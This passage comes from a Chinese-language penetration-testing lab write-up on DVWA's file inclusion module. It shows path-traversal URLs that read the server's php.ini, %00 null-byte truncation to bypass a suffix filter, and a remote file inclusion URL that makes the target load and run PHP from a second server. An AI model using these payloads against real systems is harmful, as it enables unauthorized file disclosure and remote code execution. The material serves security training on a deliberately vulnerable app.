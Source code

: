     成功读取了服务器的 php.ini 文件

    `http://<IP地址!!!>/dvwa/vulnerabilities/fi/?page=file4.php`

- **构造url(相对路径)**

    `http://<IP地址!!!>/dvwa/vulnerabilities/fi/page=../../../../../../../../../phpStudy/PHPTutorial/WWW/DVWA/php.ini`

    加这么多 ../ 是为了保证到达服务器的C盘根目录，可以看到读取是成功的。

    ![image](../../../img/渗透/实验/dvwa/dvwa19.png)

    同时我们看到，配置文件中的 Magic_quote_gpc 选项为 off。在 php 版本小于 5.3.4 的服务器中，当 Magic_quote_gpc 选项为 off 时，我们可以在文件名中使用 %00 进行截断，也就是说文件名中 %00 后的内容不会被识别，即下面两个 url 是完全等效的。

    1. http://<IP地址!!!>/dvwa/vulnerabilities/fi/?page=../../../../../../../../../phpStudy/PHPTutorial/WWW/DVWA/php.ini

    2. http://<IP地址!!!>/dvwa/vulnerabilities/fi/?page=../../../../../../../../../phpStudy/PHPTutorial/WWW/DVWA/php.ini%0012.php

    使用 %00 截断可以绕过某些过滤规则，例如要求 page 参数的后缀必须为 php，这时链接 A 会读取失败，而链接 B 可以绕过规则成功读取。

**远程文件包含**

当服务器的 php 配置中，选项 allow_url_fopen 与 allow_url_include 为开启状态时，服务器会允许包含远程服务器上的文件，如果对文件来源没有检查的话，就容易导致任意远程代码执行。

在远程服务器 B 上传一个 phpinfo.txt 文件，内容如下
```php
<?php

phpinfo();

?>
```

构造url `http://<IP地址!!!>/dvwa/vulnerabilities/fi/?page=http://<服务器B IP地址!!!>/phpinfo.txt`

成功在服务器上执行了 phpinfo 函数

![image](../../../img/渗透/实验/dvwa/dvwa20.png)
